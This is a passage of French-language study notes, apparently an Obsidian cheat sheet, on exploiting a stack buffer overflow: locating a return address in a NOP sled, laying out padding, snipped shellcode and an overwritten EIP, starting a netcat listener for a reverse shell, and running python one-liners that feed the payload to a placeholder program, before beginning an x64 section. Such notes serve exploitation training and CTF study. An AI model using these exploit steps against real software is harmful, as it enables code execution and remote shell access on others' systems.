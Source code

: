 
Possible d'afficher la taille de la stack

```
info proc all
```


# 5. Identifier l'adresse de retour

1. Choisir une adresse dans la stack qui correspond a nos NOPs (0x90) et qui ne contient aucun mauvais caractère identifiés précédemment.

2. Modifier l'EIF avec l'adresse choisie (en Little Endian donc à l'envers)

```shell-session
Buffer = "\x55" * (<nb_caracteres> - 100 - <payload_size>) = ?
     NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x4c\xd6\xff\xff"
```

3. Lancer listener netcat

```bash
nc -nvlp 9001
```

4. Exécuter le programme en dehors de gdb avec le payload final

```shell-session
./<prog> $(python -c 'print "\x55" * (<nb_caracteres> - 100 - <payload_size>) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"')
```

```shell-session
(python -c 'print "\x55" * (<nb_caracteres> - 100 - <payload_size>) + "\x90" * 100 + "\xda\xca\xba...<SNIP>...\x5a\x22\xa2" + "\x4c\xd6\xff\xff"') | ./<prog>
```




---

# x64


[[#1. Prendre le contrôle du RIP (Pointer d'instruction)]]
[[#2. Déterminer la longueur pour le Shell code]]
[[#3. Identifier les mauvais caractères]]
[[#4. Générer le Shell code]]
[[#5. Identifier l'adresse de retour]]


# 1. Prendre le contrôle du RIP (Pointer d'instruction)

Prendre contrôle de l'EIP (Pointer d'instruction) pour faire le jump sur la bonne adresse ou se trouve le shellcode afin de l'exécuter.
